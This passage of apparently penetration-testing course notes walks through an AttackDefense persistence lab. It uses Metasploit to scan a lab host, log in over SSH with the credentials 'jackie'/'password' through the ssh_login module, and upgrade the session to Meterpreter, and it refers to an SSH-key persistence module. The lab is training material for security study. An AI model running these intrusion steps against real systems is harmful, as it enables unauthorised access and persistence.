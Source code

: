 ![Metasploit - post/linux/manage/sshkey_persistence](.gitbook/assets/image-20230422152922122.png)

------

## Lab 3 - Persistence

> 🔬 Same as [Privilege Escalation - Rootkit Scanner](https://attackdefense.com/challengedetails?cid=1396)
>
> - Target IP: `192.101.97.3`
> - Metasploit **`post/linux/gather/`** credentials dumping modules

```bash
ip -br -c a
	192.101.97.2/24
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.101.97.3
setg RHOST 192.101.97.3
workspace -a Linux_Persistence
db_nmap -sV 192.101.97.3
```

```bash
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

### Exploitation

```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
options
set USERNAME jackie
set PASSWORD password
run
sessions
```

- Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session

```bash
sessions -u 1
```
